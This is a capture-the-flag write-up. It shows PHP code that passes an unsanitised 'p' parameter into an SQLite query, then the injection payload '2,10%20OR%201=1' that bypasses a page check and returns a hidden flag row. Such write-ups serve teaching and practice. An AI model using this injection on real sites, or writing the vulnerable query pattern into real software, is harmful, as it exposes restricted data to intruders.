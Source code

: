 2. The only protection against querying the flag is checking if the min page is greater than 1:

```php
[$min, $max] = explode(",",$_GET['p']);
if(intval($min) <= 1 ) {
    die("This post is not accessible...");
}
```

3. The inputs are not sanitized and passed directly to the SQLite query, especially the $max which is never checked:

```php
$q = "SELECT * FROM pages WHERE id >= $min AND id <= $max";
$result = $db->query($q);
```

## Exploitation

The exploit is an easy SQLi that consists in passing to the `p` parameter the following value:

```
2,10%20OR%201=1
```

This will result in the following values:

```php
$min = '2';
$max = '10 OR 1=1';
```

So the server will interpret the query as:

```sql
SELECT * FROM pages WHERE id >= 2 AND id <= 10 OR 1=1
```

Querying all the pages, including the one with ID 1, which contains the flag:
 
![The flag](image-1.png)

